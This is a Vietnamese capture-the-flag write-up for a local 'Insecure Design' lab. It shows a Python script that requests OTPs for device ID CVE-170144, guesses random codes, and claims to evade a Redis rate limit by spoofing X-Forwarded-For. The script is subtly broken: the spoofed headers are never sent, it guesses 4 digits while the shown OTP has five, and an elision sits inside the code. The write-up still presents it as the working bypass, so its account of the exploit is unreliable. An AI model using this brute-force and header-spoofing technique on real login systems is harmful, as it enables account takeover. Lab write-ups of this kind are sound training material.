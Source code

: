 
# 🧱 Insecure Design

---

## Cài đặt môi trường

*Note: vẫn như cài đặt ở phần 01*

```
http://127.0.0.1:4004/
```

---

## Phân tích

- Khi vào link trang web chúng ta sẽ có môt giao diện login forms gồm 
![ISD](images/Picture14.png)

- Truy cập: `http://127.0.0.1:4004/generator.php`

![ISD](images/Picture15.png)
- Tiếp theo, ta sẽ nghiên cứu resource của bài này. Bài này sẽ gồm có các file chính sau: `index.php`, `generator.php`, `0f1dc3a4a495befc4fd568aa151b6c8b.db`

![ISD](images/Picture16.png)

- Sau khi nghiên cứu luồng hoạt động. Đại khái sẽ là: index sẽ kết nối với Redis server, dữ liệu đăng nhập sẽ được truy suất trong cái file .db dài dài trên kia và điều kiện để có được flag là ta sẽ phải đăng nhập bằng ID: CVE-170144 và mã OTP của nó

==>	Vậy điều kiện để lấy được flag sẽ là đăng nhập bằng ID kể trên

- Vào file 0f1dc3a4a495befc4fd568aa151b6c8b.db rồi dùng ID và mã OTP có ở trong đó đăng nhập thử
![ISD](images/Picture17.png)

- ==>	Kết quả trả về sẽ là: OTP is not expired
- Vậy thử tạo mã Otp mới 
---

## Vấn đề

- ![ISD](images/Chicken-thinking.png) Lỗi "attempt to write a readonly database" cho thấy rằng cơ sở dữ liệu SQLite hiện đang chỉ đọc và không cho phép ghi vào`
- Redis giới hạn số lần thử tạo OTP
- Cần sử dụng bypass bằng thay đổi IP giả (spoofed IP)

---

## Python Bypass Code

- OK! ![ISD](images/Chicken-D0ne.png) Vậy sẽ phải dùng đến redis bypass và thay đổi địa chỉ IP để tránh được giới hạn số lần gọi và thử tạo OTP liên tục

```python
# Code bypass Redis và tạo OTP liên tục (xem nội dung đầy đủ trong writeup gốc)
...
import requests
import random
import string
from redis import Redis
# Thiết lập kết nối Redis
redis_client = Redis(host='localhost', port=6379, db=0, password='hungthinhtran_bountyboys', decode_responses=True)

# Địa chỉ URL cho form đăng nhập và tạo OTP
login_url = "http://localhost:4004/"
generator_url = "http://127.0.0.1:4004/generator.php"
# Hàm tạo OTP ngẫu nhiên
def generate_otp(digits=4):
    return ''.join(random.choices(string.digits, k=digits))
# Hàm gửi yêu cầu POST đến generator.php để tạo OTP
def create_otp(device_id):
    payload = {'id': device_id}
    response = requests.post(generator_url, data=payload)
    if "WE SENT OTP TO YOUR DEVICE" in response.text:
        print(f"OTP created successfully for device ID: {device_id}")
        return True
    else:
        print(f"Failed to create OTP for device ID: {device_id}")
        return False
# Hàm đăng nhập với OTP
def login_with_otp(device_id, otp):
    payload = {'id': device_id, 'otp': otp}
    response = requests.post(login_url, data=payload)
    
    if "Bounty_Boys{Captured_The_Flag}" in response.text:
        print("Login successful! Flag: Bounty_Boys{Captured_The_Flag}")
        return True
    elif "Wrong OTP or device ID not exist" in response.text:
        print("Wrong OTP or Device ID")
        return False
    elif "OTP is expired" in response.text:
        print("OTP expired")
        return False
    else:
        print("Unexpected response:", response.text)
        return False

# Bypass Redis giới hạn số lần yêu cầu bằng cách spoof IP
def spoof_ip():
    # Thay đổi địa chỉ IP giả
    new_ip = f"192.168.{random.randint(1, 255)}.{random.randint(1, 255)}"
    headers = {'X-Forwarded-For': new_ip}
    print(f"Using spoofed IP: {new_ip}")
    return headers

# Vòng lặp thử tạo OTP và đăng nhập
def bypass_ctf(device_id):
    headers = spoof_ip()  # Đổi địa chỉ IP để tránh bị giới hạn Redis

    if create_otp(device_id):
        otp = generate_otp()  # Tạo OTP ngẫu nhiên
        if login_with_otp(device_id, otp):
            print("Successfully bypassed and got the flag!")
            return
        else:
            print("Login failed with OTP.")
    else:
        print("Unable to create OTP.")

# Thử nghiệm với một device_id cụ thể
device_id = "CVE-170144"
bypass_ctf(device_id)
```
![ISD](images/Picture19.png)
- Vào 0f1dc3a4a495befc4fd568aa151b6c8b.db để refresh data

![ISD](images/Picture20.png)


---

## Flag

![ISD](images/Picture21.png)
```
Device ID: CVE-170144
OTP: 01234
```
